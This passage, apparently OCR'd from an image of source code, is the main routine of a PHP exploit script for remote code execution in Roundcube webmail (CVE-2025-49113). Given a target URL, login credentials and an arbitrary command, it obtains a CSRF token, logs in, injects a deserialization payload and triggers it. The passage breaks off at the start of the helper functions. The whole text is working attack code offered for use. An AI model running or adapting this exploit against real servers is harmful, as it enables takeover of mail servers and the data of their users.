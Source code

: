```
{
    message('Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]');

    if (count($argv) < 5) {
        message(
            sprintf(
                'Usage: php %s <target_url> <username> <password> <command>',
                basename(__FILE__)
            ),
            1
        );
    }

    [$_, $targetUrl, $username, $password, $command] = $argv;

    try {
        validateUrl($targetUrl);

        // Initial request to get CSRF token and starting session cookies
        [$csrfToken, $initialCookie] = fetchCsrfTokenAndCookie($targetUrl);

        // Authenticate using the initial cookie
        $sessionCookie = authenticate(
            $targetUrl,
            $username,
            $password,
            $csrfToken,
            $initialCookie
        );

        message("Command to be executed: \n" . $command);

        // Prepare and inject payload
        [$payloadName, $payloadFile] = calcPayload($command);
        injectPayload($targetUrl, $sessionCookie, $payloadName, $payloadFile);

        // Trigger and cleanup
        executePayload($targetUrl, $sessionCookie);

        message('Exploit executed successfully');
    } catch (\Exception $e) {
        message('Error: ' . $e->getMessage(), 1);
    }
}

// -----------------------------------------------------------------------------
// Helper functions
// -----------------------------------------------------------------------------

/**
 * Validates the target URL.
 *
 * @param string $url
 * @throws \Exception
 */
function validateUrl(string $url): void
{
    if (false === filter_var($url, FILTER_VALIDATE_URL)) {
        throw new \Exception('Invalid target URL: ' . $url);
    }
}

/**
```